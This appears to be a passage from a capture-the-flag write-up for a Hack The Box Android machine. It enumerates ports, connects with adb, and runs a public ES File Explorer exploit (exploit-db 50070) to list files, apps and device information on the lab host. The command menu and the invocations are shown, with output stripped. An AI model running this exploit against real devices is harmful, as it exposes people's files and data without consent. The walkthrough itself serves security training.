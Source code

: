 ## Port 2222

- If we lookup for exploit for this specific Banana studio ssh service, we find [this exploit](https://packetstormsecurity.com/files/163311/Android-2.0-FreeCIV-Arbitrary-Code-Execution.html). Seems to have been made for this specific box. So I will not use it. Plus it seems to require a password for ssh authentication so not really useful anyway.

## Port 5555

If we search about this port, it turns out to be adb service. We can find out more about it [here](https://book.hacktricks.xyz/network-services-pentesting/5555-android-debug-bridge).  
Let's install adb if we do not have it yet `sudo apt install android-tools-adb`
- `adb connect 10.10.10.247:5555`
- Kinda stuck here so moving to another port

## ES File explorer

- This one is an http port. Let's look it up and see if we find anything.
- We find [this exploit](https://www.exploit-db.com/exploits/50070)
- Looking at the code we can see we have the following commands for the exploit

```python
    print("Available commands : ")
    print("  listFiles         : List all Files.")
    print("  listPics          : List all Pictures.")
    print("  listVideos        : List all videos.")
    print("  listAudios        : List all audios.")
    print("  listApps          : List Applications installed.")
    print("  listAppsSystem    : List System apps.")
    print("  listAppsPhone     : List Communication related apps.")
    print("  listAppsSdcard    : List apps on the SDCard.")
    print("  listAppsAll       : List all Application.")
    print("  getFile           : Download a file.")
    print("  getDeviceInfo     : Get device info.")
```

- So I tried the following commands (output is stripped for more readability)

```bash
┌─[gabrielle@parrot]─[~/Documents/explore]
└──╼ $python3 exploit2.py listFiles 10.10.10.247

[STRIPPED]

┌─[gabrielle@parrot]─[~/Documents/explore]
└──╼ $python3 exploit2.py getDeviceInfo 10.10.10.247

[STRIPPED]

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721

┌─[gabrielle@parrot]─[~/Documents/explore]
└──╼ $python3 exploit2.py listApps 10.10.10.247

[STRIPPED]

┌─[gabrielle@parrot]─[~/Documents/explore]
└──╼ $python3 exploit2.py listAppsPhone 10.10.10.247

[STRIPPED]

┌─[gabrielle@parrot]─[~/Documents/explore]
```